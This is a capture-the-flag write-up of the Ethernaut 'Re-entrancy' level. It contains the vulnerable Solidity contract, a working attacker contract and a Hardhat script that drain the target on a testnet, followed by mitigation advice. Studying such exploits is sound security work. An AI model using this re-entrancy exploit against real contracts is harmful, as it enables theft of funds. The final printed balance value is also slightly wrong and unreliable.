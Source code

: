 ```yaml
---
title: "Ethernaut #10 Re-entrancy"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Re-entrancy challenge writeup
---
```


## Re-entrancy

### Challenge

The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

### Background

This is a classic re-entrancy attack as the title suggests. A re-entrancy attack is when the victim contact calls into an attacker controlled contract in some way, and the attacker controlled contract calls some functionality in the victim contract before the first function call is finished. This can have some devestating implecation if the contract assumes that the entire function call has finished. For example, if a withdraw function is called all checks passed and before the new amount is updated the function gives execution to the attacker controled contract, the attacker can re-enter the same function before the total was subrated and receive the funds again.  

### Attack

Create a contract that when receiving funds calls the `withdraw` function again until all funds are withdrawn. Then make sure to stop to avoid reverting. The contract should also have the functionality to call the `withdraw` function

* Create a contract that can:
  * Call the `withdraw` function
  * When receiving funds call `withdraw` again util the target is out of funds
* Transfer all funds to the attacker controlled contract using the `donate` function
* Call the `withdraw` functionality through the attacker controlled contract


#### ReentranceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Reentrance.sol';

contract ReentranceSolve {

    Reentrance reentranceContract;
    uint256 amount;
    uint256 times;
    uint256 counter;

    constructor(address payable _reentranceAddress, uint256 _amount) public {
        reentranceContract = Reentrance(_reentranceAddress);
        amount = _amount;
        times = 0;
        counter = 0;
    }
    
    function withdraw (uint256 _times) public {
        times = _times;
        // _king.call.value(msg.value)("");
        // _king.call{value: msg.value}("");
        reentranceContract.withdraw(amount);
    }

    receive() external payable {
        counter++;
        if (counter < times)
            reentranceContract.withdraw(amount);
    }
}
```

#### reentrance-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    reentranceAddress = "0x143E03bB8B5e89ec5A7f38B2F52296378723e27C";
    contract = await ethers.getContractAt("Reentrance", reentranceAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    contractBalance = await ethers.provider.getBalance(contract.address)

    console.log("Initial Contract Balance: " + contractBalance)
    
    ReentranceSolve = await ethers.getContractFactory("ReentranceSolve");
    reentranceSolve = await ReentranceSolve.deploy(contract.address, contractBalance);
    await reentranceSolve.deployed();

    // donate funds for attacker contract
    tx = await contract.donate(reentranceSolve.address, {value: contractBalance})
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)

    // transfer token funds
    tx = await reentranceSolve.connect(account).withdraw(2)
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/reentrance-solve.js --network rinkeby
Initial Contract Balance: 1000000000000000
Contract Balance      : 2000000000000000
Attacker Balance      : 0
Attacker Token Balance: 1000000000000000
Contract Balance      : 0
Attacker Balance      : 2000000000000000
Attacker Token Balance: 115792089237316195423570985008687907853269984665640564039457583007913129639936
```

#### Alternative solution

If our funds were much less that the contract funds we might run in an out of gas error because the times we reenter might a lot. This might require that we run this attack in multiple steps. An alternative would be to run it twice so that our balance wraps to an huge number and then run once more and extract the full contract balance. 

### Success Message

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 
#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).

